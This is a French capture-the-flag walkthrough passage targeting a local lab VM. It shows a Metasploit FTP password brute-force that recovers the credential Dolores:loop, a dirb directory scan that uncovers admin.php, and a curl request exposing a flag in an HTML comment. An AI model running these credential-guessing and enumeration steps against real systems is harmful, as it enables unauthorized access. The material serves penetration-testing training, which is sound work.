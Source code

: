 Un peu moins de trois cents mots de passe à tester cette fois-ci !

```console
msf5 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE dicoWWorld4-7.txt
PASS_FILE => dicoWWorld4-7.txt
msf5 auxiliary(scanner/ftp/ftp_login) > run

[*] 192.168.56.101:21     - 192.168.56.101:21 - Starting FTP login sweep
[!] 192.168.56.101:21     - No active DB -- Credential data will not be saved!
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Dolores (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:guest (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:with (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Teddy (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:Insider (Incorrect: )
[-] 192.168.56.101:21     - 192.168.56.101:21 - LOGIN FAILED: Dolores:then (Incorrect: )
[+] 192.168.56.101:21     - 192.168.56.101:21 - Login Successful: Dolores:loop
[*] 192.168.56.101:21     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

En parallèle, une analyse du site Web est menée avec l'outil [__DIRB__](https://tools.kali.org/web-applications/dirb), qui se sert d'une liste pré-établie de répertoires afin de déterminer d'éventuels répertoires cachés. Bingo, une page ```admin.php``` est présente, c'est peut-être à cet autre endroit-là que le mot de passe de Dolores doit être fourni !

```console
root@blinils:~# dirb http://192.168.56.101

--snip--
+ http://192.168.56.101/admin.php (CODE:200|SIZE:295)
+ http://192.168.56.101/cgi-bin/ (CODE:403|SIZE:297)
+ http://192.168.56.101/index.html (CODE:200|SIZE:143498)
+ http://192.168.56.101/server-status (CODE:403|SIZE:302)
--snip--
```

Avec un nouveau flag à la clé : _If you can't tell the difference, does it matter if I'm real or not?_

```console
root@blinils:~# curl http://192.168.56.101/admin.php
<html>
<body>


<form name="form1" action="" method="post">
<input type="password" name="password" />
<input type="hidden" name="sub" value="submit" />
<input type="submit" value="sub" />
</form>

<!--flag: If you can't tell the difference, does it matter if I'm real or not?-->

</body>
</html>
```

